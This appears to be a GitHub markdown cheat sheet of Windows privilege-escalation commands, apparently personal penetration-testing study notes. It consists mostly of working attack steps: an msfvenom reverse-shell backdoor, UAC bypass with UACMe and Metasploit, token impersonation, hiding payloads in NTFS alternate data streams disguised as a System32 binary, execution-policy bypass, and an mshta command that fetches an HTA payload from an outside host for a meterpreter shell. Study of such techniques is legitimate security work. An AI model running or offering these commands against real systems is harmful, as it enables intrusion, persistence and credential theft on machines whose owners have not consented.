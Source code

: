 # Windows Privilege Escalation

--------------------------------------------------------------------

## Windows Kernel Exploitation: (Not recommened can cause crashes)

```
Windows NT (Predefined)

Windows-Exploit-Suggester (Github Tool)

Windows-Kernel-Exploits (Github Tool)
```

--------------------------------------------------------------------

## UAC: (need to have an user inside the administrators group)

```
$ net localgroup administrators

UACMe (Github tool)
    
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=0.0.0.0 LPORT=1234 -f exe > backdoor.exe
use multi/handler (same payload as the paylaod)
set same ip and port 
.\Akagi64.exe 23 C:\Temp\backdoor.exe
    

exploit/windows/local/bypassuac_injection
set payload windows/x64/meterpreter/reverse_tcp
```

--------------------------------------------------------------------

## Windows Access Tokens: (SeImpersonatePrivilege, SeAssignPrimaryToken, SeCreateToken)

```
getprivs

load incognito

list_tokens -u

impoersonate_token “token_name”

migrate to other process
```

--------------------------------------------------------------------

## Alternate Data Streams:

> [!NOTE]
> Is an NTFS (New Tchnology File System) file attribute that was designed to provide compatibility with the MacOS HFS (Hierarchical File System).

> [!NOTE]
> Data stream (default stream that contains data of the file) and Resource stream (typically contains the metadata of the file).

```
notepad text.txt:secret.txt

type paylaod.exe > windowslog.txt:winpeas.exe

start windowslog.txt:windows.exe

cd Windows\System32

mklink wupdate.exe C:\Temp\windowslog.txt:winpeas.exe
```

--------------------------------------------------------------------


## PrivescCHECK - PowerShell script

```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME% -Format TXT,CSV,HTML,XML"

powershell -ep bypass (PowerShell execution policy bypass)
. .\PowerUp.ps1
Invoke-PrivescAudit

Decode on powershell

Commands:
$password='QWRtaW5AMTIz'
$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($pa
ssword))
echo $password

runas.exe /user:administrator cmd
```

> Basic Mode
```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

> Extended Mode + Export Txt Report
```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME%"
runas.exe /user:administrator cmd
hello_123321
use exploit/windows/misc/hta_server
Copy the generated payload i.e “[http://10.10.15.2:8080/jxEyD3w.hta”](http://10.10.15.2:8080/jxEyD3w.hta%E2%80%9D) and run it on cmd.exe
with mshta command to gain the meterpreter shell.
mshta.exe http://10.10.15.2:8080/jxEyD3w.hta
```

--------------------------------------------------------------------